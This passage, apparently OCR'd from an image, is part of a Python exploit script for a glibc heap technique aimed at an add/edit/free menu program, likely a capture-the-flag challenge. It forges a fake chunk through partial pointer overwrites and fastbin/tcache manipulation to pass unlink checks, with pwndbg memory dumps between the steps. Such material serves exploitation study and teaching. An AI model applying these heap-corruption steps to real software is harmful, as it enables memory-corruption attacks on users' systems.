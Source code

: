```python
0x603990:	0x00007ffff7fb0ca0	0x0000000000604230
0x6039a0:	0x0000000000000000	0x0000000000000000
0x6039b0:	0x0000000000000000	0x0000000000000000
"""

# get chunk 0x603980 and partial overwrite its bk to fake_chunk_B
# so that in fake_chunk_B, `fd->bk == fake_chunk_B == 0x603260`
add(9, 0x718)  # chunk whose bk is heap addr
edit(9, 0x10, p64(0) + b'\x60\x32')
"""
pwndbg> x/20xg 0x603980
0x603980:	0x0000000000000000	0x0000000000000721
0x603990:	0x0000000000000000	0x0000000000603260
0x6039a0:	0x0000000000000000	0x0000000000000000
0x6039b0:	0x0000000000000000	0x0000000000000000
"""

# use fastbin to make `*(0x603260) = 0x603260`
# so that in fake_chunk_B, `bk->fd = fake_chunk_B == 0x603260`
for i in range(8):
    add(10 + i, 0x68)
for i in range(8):
    free(10 + i)
free(3)
for i in range(7):
    add(10 + i, 0x68)
add(3, 0x68)
edit(3, 0x68, '\x60\x32')
"""
pwndbg> x/40xg 0x603250
0x603250:	0x0000000000000000	0x0000000000000071
0x603260:	0x0000000000603260	0x0000000000000081
0x603270:	0x0000000000603980	0x0000000000603250
0x603280:	0x0000000000000000	0x0000000000000000
0x603290:	0x0000000000000000	0x0000000000000000
0x6032a0:	0x0000000000000000	0x0000000000000000
0x6032b0:	0x0000000000000000	0x0000000000000000
0x6032c0:	0x0000000000000000	0x0000000000000021
0x6032d0:	0x0000000000000000	0x0000000000000000
0x6032e0:	0x0000000000000080	0x0000000000000500
0x6032f0:	0x00007ffff7fb1130	0x00007ffff7fb1130
0x603300:	0x00000000006032e0	0x00000000006032e0
0x603310:	0x0000000000000000	0x0000000000000000
0x603320:	0x0000000000000000	0x0000000000000000
0x603330:	0x0000000000000000	0x0000000000000000
0x603340:	0x0000000000000000	0x0000000000000000

fd->bk == bk->fd == p
"""

# trigger free chunk5
# you can see 0x603260 is in unsortedbin
free(5)
"""
pwndbg> bins
tcachebins
0x70 [  1]: 0x6044e0 ◂— 0x0
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
```